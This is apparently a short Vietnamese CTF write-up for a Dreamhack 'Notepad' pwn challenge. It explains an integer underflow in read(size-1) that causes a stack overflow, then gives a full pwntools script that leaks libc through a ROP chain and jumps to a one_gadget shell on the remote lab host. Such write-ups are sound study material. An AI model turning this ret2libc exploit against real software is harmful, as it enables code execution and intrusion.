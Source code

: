     puts("\n-----Leave a message-----");
    read(0, message, size - 1);

    puts("\nBye Bye!!:-)");
}
```

có 2 lần nhập dc yêu cầu , lần nhập đầu tiên để thực thi các lệnh ở system(tmp) tuy nhiên mình kh biết cái này nên sẽ làm theo cách 2 

- ta thấy nó mở 1 dg dẫn và set size = 0  , ở read sẽ xảy ra IOF → 0-1 = 1 số rất lớn (unsigned ) → có BOF và return to libc thôi

dùng one_gadget

script : 

```
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./Notepad_patched')
libc = ELF('./libc6_2.23-0ubuntu11.3_amd64.so')
#p = process()
p = remote('host3.dreamhack.games', 22245)
pop_rdi =  0x0000000000400c73
p.sendafter(b'content-----\n',b'`')
payload = b'a'*488
payload += p64(pop_rdi)
payload += p64(exe.got.read)
payload += p64(exe.plt.puts)
payload += p64(exe.sym.main)
#gdb.attach(p,gdbscript='''
        #   b*0x0000000000400c02
         #  b*0x0000000000400c0d
        #   ''')
#input()
p.sendafter(b'message-----\n',payload)
p.recvuntil(b'Bye Bye!!:-)\n')
leak = u64(p.recv(6).ljust(8,b'\x00'))
print("leak: ",hex(leak))
libc.address = leak - libc.sym.read

p.sendafter(b'content-----\n',b'`')
payload2 = b'a'*488
payload2 += p64(pop_rdi+1)
payload2 += p64(libc.address+0xf1247)
#payload2 += p64(pop_rdi)
#payload2 += p64(libc.address+1625687)
#payload2 += p64(libc.sym.system)
input()
p.sendafter(b'message-----\n',payload2)

